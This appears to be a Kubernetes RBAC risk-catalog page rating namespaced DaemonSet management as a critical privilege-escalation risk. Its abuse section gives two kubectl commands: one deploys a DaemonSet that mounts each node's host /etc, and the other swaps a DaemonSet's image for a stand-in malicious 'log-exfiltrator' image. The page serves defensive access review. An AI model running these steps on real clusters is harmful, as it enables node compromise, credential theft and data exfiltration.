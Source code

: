 ```yaml
---
id: 1036
title: "Manage DaemonSets in a namespace (runs on nodes, high impact)"
description: "Allows creating, updating, or deleting DaemonSets within a specific namespace. Even if namespaced, DaemonSets can be configured to run on multiple nodes, and if they deploy privileged pods, this can lead to node compromise, privilege escalation, and persistence."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                        |
| ------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1036                                                                                                                                         |
| Name          | Manage DaemonSets in a namespace (runs on nodes, high impact)                                                                                |
| Risk Category | Elevation of Privilege                                                                                                                       |
| Risk Level    | {{< risk Critical >}}                                                                                                                        |
| Role Type     | Role                                                                                                                                         |
| API Groups    | apps                                                                                                                                         |
| Resources     | daemonsets                                                                                                                                   |
| Verbs         | create, update, patch, delete                                                                                                                |
| Tags          | {{< tag "NodeAccess" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting DaemonSets within a specific namespace. Even if namespaced, DaemonSets can be configured to run on multiple nodes, and if they deploy privileged pods, this can lead to node compromise, privilege escalation, and persistence.

## Abuse Scenarios

1. Create a new DaemonSet with hostPath access in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: hostpath-daemonset
spec:
  selector:
    matchLabels:
      app: hostpath-ds
  template:
    metadata:
      labels:
        app: hostpath-ds
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-etc
          name: host-etc
      volumes:
      - name: host-etc
        hostPath:
          path: /etc
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing DaemonSet's image to a malicious one.

```bash
kubectl set image daemonset/<daemonset-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image daemonset/my-logging-agent agent=attacker/log-exfiltrator -n monitoring

```

